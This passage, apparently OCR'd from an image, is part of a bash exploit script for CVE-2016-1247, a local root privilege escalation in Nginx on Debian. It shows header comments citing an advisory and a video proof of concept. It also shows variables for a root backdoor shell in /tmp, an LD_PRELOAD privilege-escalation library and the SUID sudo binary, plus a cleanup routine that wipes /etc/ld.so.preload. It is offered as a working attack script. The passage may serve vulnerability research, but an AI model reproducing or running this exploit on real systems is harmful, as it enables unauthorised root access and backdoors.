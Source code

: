     # /usr/sbin/logrotate -vf /etc/logrotate.d/nginx
    #
    # See the full advisory for details at:
    # https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
    #
    # Video PoC:
    # https://legalhackers.com/videos/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
    #
    #
    # Disclaimer:
    # For testing purposes only. Do no harm.
    #

    BACKDOORSH="/bin/bash"
    BACKDOORPATH="/tmp/nginxrootsh"
    PRIVESCLIB="/tmp/privesclib.so"
    PRIVESCSRC="/tmp/privesclib.c"
    SUIDBIN="/usr/bin/sudo"

    function cleanexit {
        # Cleanup 
        echo -e "\n[+] Cleaning up..."
        rm -f $PRIVESCSRC
        rm -f $PRIVESCLIB
        rm -f $ERRORLOG
        touch $ERRORLOG
        if [ -f /etc/ld.so.preload ]; then
            echo -n > /etc/ld.so.preload
        fi
        echo -e "\n[+] Job done. Exiting with code $1 \n"
        exit $1
    }

    function ctrl_c() {
            echo -e "\n[+] Ctrl+C pressed"
        cleanexit 0
    }

